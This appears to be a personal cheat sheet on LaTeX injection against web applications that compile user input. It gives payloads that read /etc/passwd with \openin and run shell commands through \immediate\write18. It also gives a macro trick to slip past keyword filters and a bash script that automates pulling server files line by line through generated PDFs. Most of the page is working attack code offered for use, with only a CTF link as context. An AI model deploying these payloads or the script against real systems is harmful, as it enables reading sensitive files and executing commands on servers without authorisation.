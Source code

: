 
# What is LaTeX?

Is a text composition system that allow you to generate documents that have a high quality. It's very useful in university...

---

# What is LateX Injection?

Allow to the user to inject malicious code in a field of a website and then is processing

### Some examples of LaTeX Injection

- An attacker prove the capacity of add graphic o fields in a web application.
- An attacker can send LaTeX code that have an hyperlink that include a malicious file or some type of virus

---


# Injections

## Read a one line of a file

You can put this in a input field of a website that create LaTeX documents

````latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
````

If you want to see the next line you can add `\read\file to\line`

````latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\read\file to\line
\text{\line}
\closein\file
````

### How to see all the lines?

You can put a different name to the lines and call the lines in the line `\text{\lineA\lineB}`

````latex
\newread\file
\openin\file=/etc/passwd
\read\file to\lineA
\read\file to\lineB
\text{\lineA\lineB}
\closein\file
````

But you are going to see the lines together

To do this more confortable you can use **loops**, but is not recommended because sometimes some characters (of the reading file) don't like so much and is posible that not represent nothing

But we can automatize this with an script in bash:

````bash
#!/bin/bash

# Get the files from the server | LaTeX Injection

# Global variables

declare -r main_url="http://localhost/ajax.php"

filename=$1

if [[ $filename ]]; then
    read_file_to_line="%0A\read\file%20to\line"
    for i in $(seq 1 100); do
        file_to_download=$(/usr/bin/curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$read_file_to_line%0A\text{\line}%0A\closein\file&template=blank" | /usr/bin/grep -i download | awk 'NF{print $NF}')
        
        if [[ $file_to_download ]]; then
            wget $file_to_download &>/dev/null
            file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk 'NF{print $NF}')
            /usr/bin/pdftotext $file_to_convert
            file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
            rm $file_to_convert
            cat $file_to_read | head -n 1
            rm -rf $file_to_read
            read_file_to_line+="%0A\read\file%20to\line"
        else
           read_file_to_line+="%0A\read\file%20to\line" 
        fi
    done
else
    echo -e "\n\n[!] Uso: $0 /etc/passwd\n\n"
fi

````

The problem of the script is that dont' show the lines that have or begin with a underscore line (\_) and hastag (#), but the script continues running 

---

# Command execution

### If you want to see the command in the error of compilation

````latex
\immediate\write18{id}
````

### If you want to see the result in the generate pdf

````latex
\immediate\write18{id > output}

\newread\file
\openin\file=output
\read\file to\line
\text{\line}
\closein\file
````

As input is sanitized in this case, we can read one line .

In this case there are a compile directory that can do directory listing

---

# Avoid prohibited words

Sometimes when used regex in the code you can avoid this with

````latex
\def\first{inp}
\def\second{ut}
\first\second
````

---

# Resources

- [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

---
# Tags

#vulnerabilty #latexInjection #pdf #scriptingbash  
